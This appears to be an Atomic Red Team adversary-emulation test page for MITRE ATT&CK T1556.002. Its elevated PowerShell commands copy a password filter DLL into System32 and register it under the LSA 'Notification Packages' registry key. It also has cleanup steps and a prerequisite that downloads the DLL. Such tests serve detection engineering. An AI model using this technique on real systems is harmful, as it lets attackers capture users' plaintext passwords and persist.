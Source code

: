```yaml
---
tags: [T1556_002, atomic_test]
filename: "[[T1556.002|T1556.002 - Modify Authentication Process: Password Filter DLL]]"
---
```

# T1556.002 - Modify Authentication Process: Password Filter DLL

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
